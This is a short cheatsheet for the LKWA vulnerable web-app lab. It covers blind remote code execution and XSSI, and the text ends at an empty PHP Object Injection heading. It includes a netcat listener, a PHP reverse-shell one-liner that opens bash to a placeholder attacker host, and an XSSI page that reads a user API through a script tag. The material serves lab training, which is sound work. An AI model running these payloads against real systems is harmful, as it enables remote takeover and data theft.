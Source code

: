 # lkwa-cheatsheet

- my environment: macOS Catalina 10.15.6

Thanks [LKWA](https://github.com/weev3/LKWA).

## 0x01 – Blind RCE

try `sleep 5`

### Reverse Shell

- in my macOS Terminal
  - `nc -l your.server.ip.address 8888`
- in the Browser(text box)
  - `php -r '$sock=fsockopen("your.server.ip.address",8888);exec("/bin/bash -i <&3 >&3 2>&3");'`

## 0x02 – XSSI

you will find `api/user` in response body.  
try `curl http://localhost:3000/api/user`

### deploy tiny hacking server

```bash
mkdir xssi-server
cd xssi-server/
vi index.html
```

```html
<html>
  <head>
    <title>XSSI</title>
  </head>
  <body>
    <script>
      function a(s)
      {
        alert(JSON.stringify(s));
      }
    </script>
    <script src="http://localhost:3000/api/user"></script>
  </body>
</html>
```

deploy: `python3 -m http.server 3001`

access `http://localhost:3001/index.html` from browser.

<img src="https://github.com/fujiokayu/lkwa-cheatsheet/blob/master/evidence/0x02.png" width="200">

## 0x03 – PHP Object Injection
